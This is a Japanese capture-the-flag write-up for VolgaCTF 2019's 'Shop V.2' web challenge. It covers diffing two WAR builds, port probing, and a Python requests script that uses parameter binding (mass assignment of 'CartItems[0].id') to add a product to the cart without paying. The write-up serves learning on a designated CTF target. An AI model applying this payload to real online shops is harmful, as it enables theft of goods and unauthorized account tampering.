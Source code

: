 # VolgaCTF 2019 "Shop V.2" writeup

## 問題

![問題](./001.png)

## 解法

これはいろいろ試したのだがShopを勘違いしていた僕にとって難しすぎた。

Shopと同様にwarファイルはダウンロードできた。
差分はShopContrller.javaとかごく一部。
単純に買えなくなったというだけの変更に見える。



```bash-statement
# cd shop-1.0.0
# find . -printf "%p %s\n" > ../shop-1.0.0_list.txt
# cd ../shop-1.0.1
# find . -printf "%p %s\n" > ../shop-1.0.1_list.txt
# diff ../shop-1.0.0_list.txt ../shop-1.0.1_list.txt
69c69
< ./WEB-INF/classes/application.properties 165
---
> ./WEB-INF/classes/application.properties 358
71c71
< ./WEB-INF/classes/data.sql 329
---
> ./WEB-INF/classes/data.sql 247
77c77
< ./WEB-INF/classes/ru/volgactf/shop/controllers/ShopController.class 7402
---
> ./WEB-INF/classes/ru/volgactf/shop/controllers/ShopController.class 6911
```

```WEB-INF/classes/application.properties``` を見るとデータベース関連のやつが追加されているので外部から接続できたりするのか？と思いJDBCやらでいろいろ接続しようとしたけどそもそもポートが空いてない。
接続試してみたのは
- 1433
- 3306
- 5432
- 5433
- 5434
- 5435
- 8082
- 9082
- 9092
のあたり。

```
spring.mvc.view.prefix=/WEB-INF/templates/
spring.mvc.view.suffix=.jsp
spring.datasource.driver-class-name=org.h2.Driver
spring.datasource.initialization-mode=always
server.address=127.0.0.1
spring.jpa.properties.hibernate.temp.use_jdbc_metadata_defaults=false
spring.jpa.hibernate.ddl-auto=create
spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
```

ShopController.javaはbuyができなくなるという修正が加えられているだけ。

```text
99,112c99

<         final Product product = this.productDao.geProduct(productId);

<         if (product != null) {

<             if (product.getPrice() <= user.getBalance()) {

<                 user.setBalance(Integer.valueOf(user.getBalance() - product.getPrice()));

<                 user.getCartItems().add(product);

<                 this.userDao.update(user);

<                 redir.addFlashAttribute("message", (Object)"Successful purchase");

<                 return "redirect:profile";

<             }

<             redir.addFlashAttribute("message", (Object)"Not enough money");

<         }

<         else {

<             redir.addFlashAttribute("message", (Object)"Product not found");

<         }

---

>         redir.addFlashAttribute("message", (Object)"Too easy");
```


結局他の人のwriteupを見ないと分からなかった。
ポイントは以下の2点。
- POSTで変数を書き換える
- CartItemsの配列を追加する

writeupを参考にPythonのrequestsを使って書いていたのだけど、どうもうまく動かず。
結局Cookieを使ってセッション管理するときはrequests.Sessionを使った方が良いということが分かった。
配列をPOSTするときに「```CartItems[0]```」とかするのもポイントかな。
結局のところControllerの中で```getXXXX```で値が取れる場合、```XXXX```はGETパラメータやPOSTパラメータで書き換えることができるようだ。

```python
import requests

login_url = "http://shop2.q.2019.volgactf.ru/loginProcess"
target_url = "http://shop2.q.2019.volgactf.ru/profile"

payload0 = {'name': 'wani', 'pass': 'xxxxxxxx'}
payload1 = {'name': 'wani', 'CartItems[0].id': 4}

s = requests.Session()
r = s.post(login_url, data=payload0)
r = s.post(target_url, data=payload1)
print(r.text)
```

## 参考

- [VolgaCTF 2019 Qualifier - CTF](https://tuanlinh.gitbook.io/ctf/volgactf-2019-qualifier#web-shop-2)
